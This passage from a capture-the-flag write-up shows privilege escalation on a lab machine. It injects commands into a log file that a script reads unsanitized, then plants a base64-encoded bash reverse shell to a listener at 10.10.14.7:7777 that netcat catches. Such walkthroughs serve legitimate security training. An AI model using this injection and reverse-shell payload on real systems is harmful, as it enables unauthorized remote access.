 After checking the original webapp I come across the line to create log entries: `f.write(f'[{datetime.datetime.now()}] {srcip}\n')`

Now I can't decipher exactly what this looks like alone but my handy tool python cli can allow me to run this code and get the presumable output.

```python
python3
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import datetime
>>> srcip = "10.10.14.7"
>>> f'[{datetime.datetime.now()}] {srcip}\n'
'[2024-03-30 22:26:05.101147] 10.10.14.7\n'
```

A simple format, which is further refines in **scanlosers.sh** by stripping the date and scanning the IP. In this instance I have unfiltered inputs directly to the cat command and can inject whatever linux commands I desire. As a proof of concept I create the following payload of whoami and check the output of the script on my machine:

```bash
test.sh

log="[2024-03-30 22:26:05.101147] 10.10.14.7 `whoami`"
echo $log | cut -d' ' -f3- | sort -u


bash test.sh 

10.10.14.7 raccoon
```

Easy as pie. In the case of this script it is an SUID running as pwn, allowing me to run it and gain permissions as pwn so long as I replace whoami with a proper reverse shell.

```bash
[2024-03-30 22:26:05.101147] 10.10.14.7 `echo'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43Lzc3NzcgMD4mMQ==' | base64 -d | bash`

kid@scriptkiddie:/home/pwn$ nano ~/logs/hackers
kid@scriptkiddie:/home/pwn$ bash scanlosers.sh 
```

```bash
nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.10.226 33304
bash: cannot set terminal process group (870): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ 
```

I then upgraded my shell for better functionality by generating a keypair and ssh-ing in. 

# Root
